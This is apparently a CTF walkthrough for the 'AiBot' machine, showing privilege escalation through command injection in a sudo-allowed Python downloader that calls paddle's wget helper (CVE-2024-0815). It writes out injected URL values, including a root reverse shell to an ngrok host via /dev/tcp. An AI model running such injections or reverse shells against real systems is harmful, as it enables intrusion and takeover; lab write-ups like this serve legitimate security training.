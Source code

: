 ```yaml
---

title: "AiBot"  
date: "2025-4-15"  
thumbnail: "/assets/img/thumbnail/Aibot.png"

---
```


# AiBot
---
**Challenges Difficulty: Medium**  
**Category: Machines**

## WALKTHROUGH 
This challenge is from Cybertalant 2025 ramadan nights CTF

---

First thing we got is a terminal with a user called **ttyduser** to list this user permissions use 
```bash
sudo -l
```

![image.png](/assets/img/posts/Aibot/image.png)
ttyduser can run **/usr/bin/python3 /opt/aiwget.py** with sudo 

```python
import argparse
import re
from paddle import utils

def is_valid_url(url):
    regex = re.compile(
    r'^(?:http|ftp|https)s?://',
    re.IGNORECASE,
    )
    return re.match(regex, url) is not None

def is_valid_path(path):
    return path.startswith("/tmp")

def main():
    parser = argparse.ArgumentParser(description='Download AI Model.')
    parser.add_argument('url', type=str, help='URL to download from')
    parser.add_argument('path', type=str, help='Path to save the file, must start with /tmp')
    args parser.parse_args()
    if not is_valid_url(args.url):
        raise ValueError("The URL is not valid.")
    if not is_valid_path(args.path):
        raise ValueError("The path must start with /tmp.")
    utils.download._wget_download(args.url, args.path)

if __name__ == '__main__':
    main()
```
This script requires two arguments:
1. **url**: the link to the AI Model to download
2. **path**: path to save model to and must start with /tmp

Takes the arguments directly from the user and passes them to _wget_download function
we found a cve for [utils.download._wget_download](https://nvd.nist.gov/vuln/detail/CVE-2024-0815) function

![image.png](/assets/img/posts/Aibot/image%201.png)

So we tried to do so

```bash
sudo /usr/bin/python3 /opt/aiwget.py "https://; sleep 10" /tmp/model
```

![image.png](/assets/img/posts/Aibot/image%202.png)

and it works so lets try to get a revere shell using ngrok

```bash
ngrok tcp 4444 
```

![image.png](/assets/img/posts/Aibot/image%203.png)

```bash
sudo /usr/bin/python3 /opt/aiwget.py "https://; bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/14455 0>&1'" /tmp/model
```

![image.png](/assets/img/posts/Aibot/image%204.png)